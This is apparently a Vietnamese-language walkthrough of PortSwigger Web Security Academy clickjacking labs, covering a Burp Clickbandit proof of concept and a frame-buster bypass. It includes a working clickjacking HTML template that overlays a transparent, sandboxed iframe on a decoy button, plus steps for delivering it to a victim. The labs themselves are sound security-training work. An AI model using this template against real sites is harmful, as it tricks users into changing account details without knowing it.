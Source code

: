 - `"Click me"` sẻ trùng với vị trí của `"Delete account"` nên thực chất sẽ `"Delete account"` khi **click** vào `"Click me"`

### Lab: Clickjacking with form input data prefilled from a URL parameter
- Login bằng account `wiener`
- Thay đổi **url** thành `https://0a870080039ca4d9808d03fe00f6008d.web-security-academy.net/my-account?email=xnxx@gmail.com` ta sẽ thấy **input** được set **email**

```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="xnxx@gmail.com">
    <input required="" type="hidden" name="csrf" value="KCwMDXJaQ1fBmCAygvCB7y75Z3B0zNYs">
    <button class="button" type="submit"> Update email </button>
</form>
```
- Tạo **HTML template** vào **body** của **exploit server**
    - Có thể tạo như **lab** trên nhưng chỉnh vị trí cũng khá tốn thời gian
    - Sử dụng **Burp Clickbandit** để hỗ trợ tạo **PoC (Proof of Concept)** cho **Clickjacking** 
        - Click **Burp** > **Burp Clickbandit** > **Copy Clickbandit to Clipboard**
        - Mở **devtool** của trang `/my-account?email=xnxx@gmail.com`, gõ `allow pasting` để cho phép dán nội dung vào **console**
        - Dán mã **Clickbandit** copy trước đó vào và thực hiện tạo **template**
            - Check `Disable click actions` để không thực hiện hành động, chỉ chọn **element**
            - **Start** > chọn button `Update email` > **Tonggle transparency** > **Finish** > **Save**
            - Copy template được tạo và dán vào **body** của **exploit server**
- **Delive to victim**

### Lab: Clickjacking with a frame buster script
- Login bằng account `wiener`
- Thay đổi **url** thành `https://0a870080039ca4d9808d03fe00f6008d.web-security-academy.net/my-account?email=xnxx@gmail.com` ta sẽ thấy **input** được set **email**
- Tương tự như lab trên nhưng ta sẽ không dùng **Clickbandit**, bởi vì nó **focus** khoảng khác rộng, **client** khó nhấp trúng
- Sử dụng template ở dưới, thêm vào body của **exploit server**

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:70px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a1a0097049af8b1807d03e6002a005a.web-security-academy.net/my-account?email=xnxx@gmail.com" sandbox="allow-forms"></iframe>
```
- **Delive to victim**
- Ứng dụng đã sử dụng kỹ thuật **frame busting**  (hay **frame breaking**) để ngăn bị hiển thị trong **iframe**
